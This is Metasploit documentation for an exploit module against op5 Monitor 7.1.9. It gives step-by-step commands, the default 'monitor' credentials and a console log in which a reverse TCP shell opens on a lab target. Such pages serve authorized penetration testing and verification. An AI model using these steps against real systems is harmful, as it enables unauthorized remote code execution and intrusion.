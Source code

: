 ## Vulnerable Application

  Official Source: [op5.com](https://www.op5.com/blog/wpfb-file/op5-monitor-7-1-9-20160303-tar-gz/)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the software, RHEL/CENTOS required (tested on CentOS 6)
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/op5_config_exec ```
  4. Do: ```set payload linux/x86/shell/reverse_tcp```
  5. Do: ```set rhost 192.168.2.31```
  6. Do: ```set lhost 192.168.2.229```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

  **PASSWORD**

  Password is 'monitor' by default.

  **USERNAME**

  Documentation was unclear on this.  Installing just the app, the
  username was 'monitor' by default.  However it looks like if you
  install the appliance it may be 'root'

## Scenarios

  ```
    msf > use exploit/linux/http/op5_config_exec 
    msf exploit(op5_config_exec) > set verbose true
    verbose => true
    msf exploit(op5_config_exec) > set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    msf exploit(op5_config_exec) > set rhost 192.168.2.31
    rhost => 192.168.2.31
    msf exploit(op5_config_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(op5_config_exec) > check
    
    [+] Version Detected: 7.1.9
    [+] The target is vulnerable.
    msf exploit(op5_config_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending stage (36 bytes) to 192.168.2.31
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.31:52552) at 2016-06-01 14:38:41 -0400
    [*] Command Stager progress - 100.00% done (832/832 bytes)
    whoami
    monitor
    id
    uid=299(monitor) gid=48(apache) groups=48(apache),14(uucp),488(smstools) context=system_u:system_r:initrc_t:s0
  ```